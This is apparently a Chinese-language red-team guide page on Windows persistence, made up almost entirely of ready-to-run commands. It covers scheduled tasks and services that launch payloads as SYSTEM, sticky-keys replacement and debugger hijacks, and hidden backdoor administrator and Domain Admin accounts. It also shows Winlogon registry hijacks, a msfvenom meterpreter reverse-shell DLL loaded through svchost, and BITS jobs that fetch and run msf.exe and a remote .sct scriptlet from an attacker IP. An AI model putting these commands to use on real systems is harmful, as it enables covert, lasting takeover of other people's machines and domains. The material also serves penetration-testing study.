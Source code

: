 ### Windows持久化

1. DLL劫持

参考[DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

2. 计划任务

```bash
schtasks /create /tn "MaliciousTask" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc ONSTART /ru SYSTEM
schtasks /query /TN MaliciousTask /XML
schtasks /create /tn "MaliciousTaskDaily" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc DAILY /st 09:00 /ru SYSTEM
```

PowerShell:

```bash
$Action = New-ScheduledTaskAction -Execute "C:\malicious.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$Settings = New-ScheduledTaskSettingsSet
$Settings.ExecutionTimeLimit = "PT0S"
Register-ScheduledTask -TaskName "MaliciousTaskLogon" -Action $Action -Trigger $Trigger -User "SYSTEM" -Settings $Settings
```

```bash
schtasks /delete /TN "MaliciousTask" /F
Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
```

```bash
SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /RL HIGHEST /RU SYSTEM /ENABLE
```

3. 创建服务

```bash
sc create MaliciousService binPath= "C:\hi.exe" start= auto obj= LocalSystem DisplayName= "Windows Update Service"
or
New-Service -Name "MaliciousServicePS" -BinaryPathName "C:\malicious.exe" -Description "Windows Update Service" -StartupType Automatic
```

```bash
sc start MaliciousService
sc delete MaliciousService
```

4. 辅助功能

辅助功能的可执行文件位于C:\Windows\System32目录下，辅助功能的可执行文件如下所示:
+	屏幕键盘：osk.exe。用于在屏幕上显示虚拟键盘。在运行中的Windows系统中，可以通过在“运行”对话框中输入osk并按回车键来启动。
+	放大镜：Magnify.exe。用于放大屏幕内容，键入WIN+=可快速启动。
+	轻松访问：Utilman.exe。用于管理各种辅助功能，键入WIN+U可快速启动。
+	讲述人：Narrator.exe。一种屏幕阅读器，用于朗读屏幕上的文本，键入WIN+回车可快速启动。
+	屏幕切换：DisplaySwitch.exe。切换不同的显示模式，键入WIN+P可快速启动。
+	粘滞键：sethc.exe。帮助那些难以同时按下多个组合键（例如 Ctrl + Alt + Delete）的用户。开启粘滞键后，用户可以依次按下每个键，而不是同时按下，键入五次SHIFT可快速启动。

(1)替换可执行文件

```bash
takeown /F C:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrators:F
cmd.exe > sethc.exe
```

(2)修改注册表启动项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\hi.exe" /f
```

(3)Metasploit框架

```bash
run post/windows/manage/enable_rdp
use post/windows/manage/sticky_keys
```

5. 创建账户

```bash
net user backdoor Password123! /add /comment:"Hidden Account" /fullname:"System Administrator"
net localgroup Administrators backdoor /add
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
```

```bash
New-LocalUser -Name "用户名" -NoPassword和Add-LocalGroupMember -Group "Administrators" -Member "用户名"
```

```bash
net user "hacker" "Password123!" /add /domain
net group "Domain Admins" "hacker" /add /domain
Get-ADUser -identity "hacker" -Properties memberof
```

```bash
$PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
$PasswordProfile.Password = "Password123!"

New-AzureADUser `
    -DisplayName "Snowwolf" `
    -PasswordProfile $PasswordProfile `
    -UserPrincipalName "Snowwolf@contoso.com" `
    -AccountEnabled $true `
    -MailNickName "Snowwolf"

Add-AzureADGroupMember -ObjectId "<ObjectID" -RefObjectId "<RefObject>"
```

6. NetShell Helper DLLs

参考[netsh-helper-dll](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#netsh-helper-dll)

7. Winlogon

(1)修改Userinit注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\hi.exe, C:\Windows\system32\userinit.exe" /f
```

(2)修改Shell注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "C:\hi.exe, explorer.exe" /f
```

(3)PowerShell

```bash
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, C:\hi.exe" -Force
or
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, C:\hi.exe" -Force
```

8. 利用Service DLL在svchost.exe中实现持久化

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll
```

```bash
sc create MaliciousService binPath= "C:\Windows\system32\svchost.exe -k netsvcs" start= auto obj= LocalSystem DisplayName= "Malicious Service" depend= RPCSS
reg add "HKLM\SYSTEM\CurrentControlSet\Services\MaliciousService\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\snowwolf\msf.dll" /f
sc start MaliciousService
```

9. 屏幕保护程序劫持

C:\Windows\System32:

msf.exe > scrnsave.scr

```bash
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\scrnsave.scr" /f
```

10. BITS Jobs

(1)手动创建持久化

```bash
bitsadmin /create MaliciousBITSJob
bitsadmin /addfile MaliciousBITSJob http://IP地址/payload/msf.exe C:\msf.exe
bitsadmin /SetNotifyCmdLine MaliciousBITSJob C:\msf.exe
bitsadmin /SetMinRetryDelay "MaliciousBITSJob" 30
bitsadmin /Resume MaliciousBITSJob
```

```bash
schtasks /create /tn "BitsJob" /sc minute /mo 1 /ru SYSTEM /tr "C:\Windows\System32\bitsadmin.exe /resume "\MaliciousBITSJob\""
```

(2)无文件持久性

```bash
exploit/multi/script/web_delivery
bitsadmin /create nullfile
bitsadmin /addfile nullfile http://IP地址/payload/msf.exe C:\msf.exe
bitsadmin /SetNotifyCmdLine nullfile regsvr32.exe "/s /n /u /i:http://192.168.0.189:8080/aprYTTt53.sct scrobj.dll"
bitsadmin /SetMinRetryDelay "nullfile" 30
bitsadmin /Resume nullfile
```

```bash
Get-BitsTransfer -AllUsers | Remove-BitsTransfer
```

11. RID劫持
